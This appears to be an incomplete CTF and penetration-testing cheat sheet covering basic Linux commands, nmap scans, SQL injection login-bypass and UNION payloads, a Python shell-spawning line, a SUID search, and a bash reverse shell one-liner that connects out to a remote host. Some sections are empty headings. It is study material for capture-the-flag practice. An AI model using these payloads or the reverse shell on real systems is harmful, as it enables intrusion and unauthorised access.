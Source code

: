 # Table of Content
- [Useful Script](#useful)
   - [Useful Linux Command](#linux)
   - [Useful Reverse Shell](#reverseshell)
   - [Reconnaissance](#recon)
      - [Nmap](#nmap)
      - [Nikto](#nikto)
   - [Privilege Escalation](#privesc)
      - [Shell Spawning](#shellspawn)
      - [SUID](#suid)
- [CTF Methodology](#ctfmethod)
   - [Web App](#webapp)
      - [SQL Injection](#sqlinj)
      - [XSS](#xss)
      - [Subdomain Takeover](#subdomain)


<a name=""useful"></a>
# Useful Script
<a name="linux"></a>
## Useful Linux Command

- ```ls```: List every file in a directory
- ```ls -al```: List every file in directory with its chmod.
- ```cd [directory]```: Enter a directory
- ```cd ..```: Go back up one directory
- ```cd ~```: go back to home directory
- ```pwd```: current folder
- ```strings [file]``` : Grab human readable strings from a binary file
- ```file [directory] -type f -size 1033c -executable -readable```: Find a human readable file with size 1033, and executable.
- ```chmod +x [file]```: Add executable to file's chmod;
- ```uniq [file1] [file2]```: Find the unique line between two files
- ```base64 -d [file]```: Use base64 to decode text stored in file.
- ```cat [file] | tr 'A-Za-z' 'N-ZA-Mn-za-m'```: Open a file and rot13
- ```xxd [file]```: Read binary data of a file

<a name="recon"></a>
# Reconnaissance

<a name="nmap"></a>
### Nmap

- ```nmap -p- -oA full-nonscripts [Target IP] --max-retries 0```: 
-```nmap -sC -sV -O -oA [file] [target ip]```:




<a name="nikto"></a>
### Nikto

<a name="reverseshell"></a>
# Useful Reverse Shell

```bash -i >& /dev/tcp/[host]/[port] 0>&1```

<a name="webapp"></a>
# Web App 

<a name="sqlinj"></a>
### SQL Injection

#### Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```SQL
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
The statement above mainly ask the Database to select the user where the username and password are matched with the one we input to the login form. 

Now, if we put below payload into the username field, 

```SQL
admin' OR 1=1 --
```
the whole SQL statement would becomes this:

```SQL
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
So, now the statement above now turns to select the user where username is admin or 1=1. Please pay attention that ```--``` means comment out the rest of the statement. Thus, it doesnt matter whether you have put in anything to the password field. Now, the database would return the whole list of user from their database. And normally, a session with the first user in the database would be created for us. If the statement above can't log you in, you may also try something like below as SQL syntax might slightly varies in different brands of SQL.

```SQL
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
If above can log you in and you want to login as other users, you may use the statement below:

```SQL
 ' UNION SELECT 1 --
```
Thus, the whole SQL statement would becomes:

```SQL
SELECT * from TABLE where USERNAME='' UNION SELECT 1 --AND PASSWORD='PASSWORD';
```


```SQL
 ' UNION SELECT 1,2 # 
 ' UNION SELECT 1,2,3 # 
```


<a name = "xss"></a>
### XSS

<a name ="subdomain"></a>
### Subdomain Takeover

<a name ="privesc"></a>
# Privilege Escalation

<a name="shellspawn"></a>
### Shell Spawning 

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```


<a name="suid"></a>
### SUID

If you type ```ls -al``` in console, there are something like ```rwxr--rwx root root``` next to your file name. So, what does it mean? It 

To find file with SUID bit. Simply use following command:

```
find [directory] -perm -u=s -type f 2>/dev/null
```

